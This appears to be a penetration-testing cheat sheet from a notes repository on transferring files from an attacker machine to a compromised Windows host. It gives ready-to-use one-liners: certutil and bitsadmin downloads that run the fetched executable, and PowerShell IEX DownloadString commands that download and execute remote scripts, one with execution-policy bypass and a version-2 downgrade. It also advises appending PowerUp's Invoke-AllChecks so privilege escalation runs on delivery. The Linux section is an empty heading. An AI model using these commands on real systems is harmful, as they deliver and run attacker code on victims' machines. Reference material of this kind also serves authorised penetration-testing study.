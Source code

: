 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

To execute the payload upon delivery add the command you want Powershell to run at the end of the script.  A good example of this is using the PowerUp.ps1 privilege escalation script.  The command Invoke-AllChecks can be added to the end of the script so that it is ran as soon as it is collected from the attackers machine.  If you only want to download the script then execute later the `powershell Import-Module .\PowershellScript.ps1` command can be used.  This will then allow you to run the commands within the script manaully.

### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
